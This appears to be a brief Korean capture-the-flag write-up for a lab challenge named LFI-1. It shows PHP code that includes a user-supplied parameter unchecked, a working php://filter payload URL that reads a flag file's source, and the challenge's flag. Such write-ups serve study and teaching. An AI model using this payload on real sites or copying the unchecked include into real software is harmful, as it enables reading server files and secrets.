

## LFI-1

```bash
if (!isset($_GET["p"])) { include 'home.php'; }
else { include $_GET["p"]; }   // LFI
```

다른 제약 조건 없이 LFI 취약점이 작동하는 것을 확인하였다.

```bash
http://edu.arang.kr:9204/?p=php://filter/convert.base64-encode/resource=lfiflag.php
```



이와 같은 결과가 출력되는데 base64 디코딩을 하게 되면

```bash
<?php
$flag = "flag{b601bf1b49981b1f3a02}";
```

flag{b601bf1b49981b1f3a02} 를 획득 할 수 있다.
